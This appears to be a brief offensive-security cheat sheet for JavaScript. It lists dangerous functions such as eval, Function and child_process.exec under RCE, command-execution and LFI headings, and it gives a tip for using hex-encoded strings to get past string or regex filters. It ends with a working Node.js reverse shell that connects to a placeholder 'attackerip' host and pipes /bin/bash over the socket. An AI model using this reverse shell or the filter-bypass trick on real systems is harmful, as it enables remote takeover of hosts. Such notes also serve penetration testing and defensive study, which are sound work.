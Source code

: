# JavaScript

### Notes
- JavaScript strings can be natively hex-encoded e.g. `"\\\\x2fbin\\\\x2fbash"` - useful for string/regex bypass

### Dangerous Functions

```js
/* RCE */
eval()                  //evaluate string as a javascript code
safe-eval()             //same as eval, but more secure.
setTimeout(string, 2)
setInterval(string)
Function(string)

/* Command Execution */
child_process.exec()

/* LFI */
require()
```

### Reverse Shell

```js
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
